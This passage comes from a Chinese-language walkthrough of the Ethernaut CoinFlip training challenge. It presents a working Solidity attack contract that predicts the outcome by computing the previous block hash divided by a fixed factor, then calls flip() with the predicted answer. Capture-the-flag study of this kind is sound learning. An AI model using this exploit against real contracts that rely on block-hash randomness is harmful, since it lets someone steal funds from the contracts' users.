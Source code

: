 所以只需要写一个脚本攻击即可，速度也不能太快，不然可能交易失败；

### 攻击

攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    // 抛硬币合约对象
    CoinFlip public coinfilp;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // 设置抛硬币合约
    function setContract(address addr) public {
        coinfilp = CoinFlip(addr);
    }

    // 攻击合约
    function Attack() public returns (bool){
        // 获取上一个区块的值
        uint256 lastblockValue = uint256(blockhash(block.number - 1));
        // 计算硬币结果
        uint256 flip = lastblockValue / FACTOR;
        bool res;
        if (flip == 1){
            res = true;
        } else {
            res = false;
        }
        // 调用抛硬币合约执行
        return coinfilp.flip(res);
    }
}
```

设置合约地址：

![image-20250101130854812](./assets/image-20250101130854812.png)
